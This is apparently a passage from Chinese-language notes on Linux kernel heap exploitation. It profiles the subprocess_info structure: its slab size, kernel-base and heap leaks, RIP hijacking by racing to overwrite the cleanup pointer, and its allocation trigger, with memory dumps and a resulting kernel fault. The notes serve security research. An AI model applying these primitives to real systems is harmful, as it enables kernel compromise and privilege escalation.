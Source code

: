 ```c
0x0030: 0x4242424241414141
0x0038: 0x4444444443434343
0x0040: 0x4646464645454545
0x0048: 0x0000000000000046
[+] kheap = 0xffff88800e1661c0
*/
```

#### 4. [subprocess_info](https://elixir.bootlin.com/linux/v4.19.98/source/include/linux/umh.h#L19)

**size**: 0x60 `kmalloc-128`

**内核基址**：可泄露。`work.func`可能指向`call_usermodehelper_exec_work`

**heap**：可泄露。但尚未验证是哪些SLUB

**stack**：不能泄露。

**劫持RIP**：可劫持。重写`cleanup`

**产生**：`socket(22, AF_INET, 0)` —— 未知协议

**释放**：与产生的路径相同

**备注**：通过竞争来设置`info->cleanup`，触发执行`if (info->cleanup) info->cleanup(info);` 劫持RIP的概率很大，但是构造ROP回到用户态后，会死在fs或者syscall。如果禁用SMAP，理论上可以将fd重写到用户态，并结合userfaultfd。

```c
struct subprocess_info {
	struct work_struct work;
	struct completion *complete;
	const char *path;
	char **argv;
	char **envp;
	struct file *file;
	int wait;
	int retval;
	pid_t pid;
	int (*init)(struct subprocess_info *info, struct cred *new);
	void (*cleanup)(struct subprocess_info *info);
	void *data;
} __randomize_layout;
/*
0x0000: 0xffff88800f254380
0x0008: 0xffff88800f254e88
0x0010: 0xffff88800f254e88
0x0018: 0xffffffff81071380
0x0020: 0x0000000000000000
0x0028: 0xffffffff82242260
0x0030: 0xffff88800e0e3b40
0x0038: 0xffffffff82242180
0x0040: 0x0000000000000000
0x0048: 0x0000010000000006
0x0050: 0x0000000000000407
0x0058: 0x0000000000000000
[+] kbase = 0xffffffff81000000
[+] kheap = 0xffff88800f254380
Press enter to continue...
[    6.801190] BUG: unable to handle kernel paging request at 00000000deadbeef
*/
```
